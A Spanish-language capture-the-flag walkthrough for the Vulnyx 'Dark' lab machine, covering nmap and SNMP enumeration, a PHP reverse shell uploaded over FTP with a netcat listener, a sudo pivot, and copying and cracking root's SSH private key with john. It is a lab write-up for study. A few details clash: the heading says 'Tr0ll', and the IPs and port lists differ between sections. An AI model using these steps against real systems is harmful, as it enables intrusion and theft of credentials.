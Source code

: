 ```yaml
---
title: "Dark — Walkthrough"
author: "Pxlymxrph"
level: "Medium"
target: "Vulnyx - Dark"
url: "https://vulnyx.com/file/Dark.php"
date: 2025-10-10
tags: [ctf, vulnyx, linux, snmp, privesc, ftp, enum]
---
```


# Tr0ll — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** Vulnyx - Dark (link arriba)  
**Objetivo:** Obtener acceso root y encontrar la flag.
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP, SSH y HTTP con escaneo TCP y SNMP mediante UDP.
- Se usa `onesixtyone` y `snmpwalk` -> Credenciales FTP = subida de reverse shell
- Movimiento lateral mediante `/usr/bin/sh`
- `/usr/bin/most` permite obtener id_rsa de usuario root -> `john` crackea la clave privada.
- Flags: root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.79**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.79` (confirma Linux).

![ip_discovery.png](Images/ip_discovery.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.79 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (22,80,8000):

```bash
nmap -sCV -p22,80,8000 192.168.1.97
```
![nmap_servs.png](Images/nmap_servs.png)

En este caso el escaneo UDP arrojó el puerto 161 abierto.

![udrp_ports.png](Images/udp_ports.png)

Resultados clave:
- 22/tcp SSH  
- 80/tcp HTTP
- 8000/tcp FTP
- 161/udp SNMP

## 3) Enumeración web
Ingreso al servidor HTTP y encuentro la página vacía. Realizo fuzzing con `dirbuster`, `gobuster`, `dirsearch` y `wfuzz` sin encontrar archivos o directorios importantes.

![dirbuster.png](Images/dirbuster.png)

## 4) Enumeración SNMP
Debido a que en los servicios TCP no pude encontrar nada reelevante, procedo a enumerar el puerto 161; primeramente con `onesixtyone` para encontrar la comunidad correspondente y, posteriormente, uso `snmpwalk` con el fin de enumerar información.

![onesixtyone.png](Images/onesixtyone.png)

![snmpwalk.png](Images/snmpwalk.png)

```bash
onesixtyone 192.168.1.79 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
snmpwalk -v2c root 192.168.1.79
```

## 5) Acceso y enumeración local
Una vez con las credenciales FTP conseguidas me dirijo a enumerar el servicio sin resultados. Subo una reverse shell y me pongo en escucha con `netcat`. Leo la bandera número uno.

![flag1.png](Images/flag1.png)

```bash
put rshell.php
nc -nlvp 443
```

Aplico `sudo -l` para listar los privilegios del usuario actual y encuentro que puedo usar el comando `sh` como el usuario alan, por lo cual logro migrar de usuario.

![user_pivot.png](Images/user_pivot.png)

Nuevamente listo los privilegios disponibles y encuentro `usr/bin/most` con capacidad de ejecutarse como root. Investigando un poco, encuentro que es un programa para visualizar archivos de texto en la terminal (similar a more o less).
Consigo que `most` almacene el archivo `id_rsa` del usuario root en un archivo accesible sin privilegios.

```bash
sudo /usr/bin/most /root/.ssh/id_rsa >> /tmp/id_rsa.txt
```

## 6) Escalada a root
Una vez con el `id_rsa` almacenado me apoyo de `john` para crackear la contraseña.
Me logueo como root y leo la última bandera.

![escalada.png](Images/escalada.png)

```bash
john -w:/usr/share/wordlist/rockyou.txt id_rsa.txt
chmod 700 id_rsa.txt
ssh root@192.168.1.79 -i id_rsa.txt
```

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.79 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.79
nmap -sU --top-ports 50 192.168.1.79
onesixtyone 192.168.1.79 -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt
snmpwalk -v2c root 192.168.1.79
sudo /usr/bin/most /root/.ssh/id_rsa >> /tmp/id_rsa.txt
john -w:/usr/share/wordlist/rockyou.txt id_rsa.txt
chmod 700 id_rsa.txt
ssh root@192.168.1.79 -i id_rsa.txt
```

## Conclusión
Este CTF nos recuerda que la fase de enumeración es la más importante de todas, pues es la base de todo el proceso y de ella depende el resultado final en las pruebas de penetración. Sin un reconocimiento exhaustivo, se podrían pasar por alto vulnerabilidades clave, lo que llevaría a un análisis incompleto.